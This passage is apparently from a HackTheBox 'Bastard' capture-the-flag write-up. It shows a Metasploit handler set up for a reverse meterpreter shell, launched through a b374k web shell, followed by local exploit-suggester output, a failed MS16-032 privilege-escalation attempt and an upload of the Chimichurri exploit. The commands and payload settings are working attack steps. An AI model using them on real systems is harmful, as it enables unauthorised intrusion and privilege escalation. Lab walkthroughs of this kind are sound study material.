     9 Dir(s) 31.039.807.488 bytes free

I prepared a metasploit handler to receive the incoming windows shell.

    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST myip
    set LPORT 4444
    set ExitOnSession false
    exploit -j -z

I executed ssec.exe through **b374k’s** terminal and got a meterpreter shell.

    meterpreter > sysinfo
    Computer : BASTARD
    OS : Windows 2008 R2 (Build 7600).
    Architecture : x64
    System Language : el_GR
    Domain : HTB
    Logged On Users : 0
    Meterpreter : x86/windows

Now that we have a meterpreter shell we can use exploit suggester

    meterpreter > run post/multi/recon/local_exploit_suggester
    [] 10.10.10.9 — Collecting local exploits for x86/windows…
    [] 10.10.10.9–37 exploit checks are being tried…
    [+] 10.10.10.9 — exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
    [+] 10.10.10.9 — exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
    [+] 10.10.10.9 — exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
    [+] 10.10.10.9 — exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.10.9 — exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.10.9 — exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    [+] 10.10.10.9 — exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
    [+] 10.10.10.9 — exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
    [+] 10.10.10.9 — exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

We got quite a few exploits we could use but only one of them looks promising, *ms16_032_secondary logon_handle_privesc*. I tried it but it did not work.


    [] Started reverse TCP handler on 10.10.x.x:4444
    [] Writing payload file, C:\Users\Public\Documents\test\XEfKVo.txt…
    [] Compressing script contents…
    [+] Compressed size: 3588
    [] Executing exploit script…
    [] Exploit completed, but no session was created.

*I kept digging the inter-webs and came across this exploit on github https://github.com/Re4son/Chimichurri/*
*Now that we have a meterpreter shell we can use the upload function built in metasploit. I uploaded* `Chimichurri.exe to C:\inetpub\drupal-7.54\`

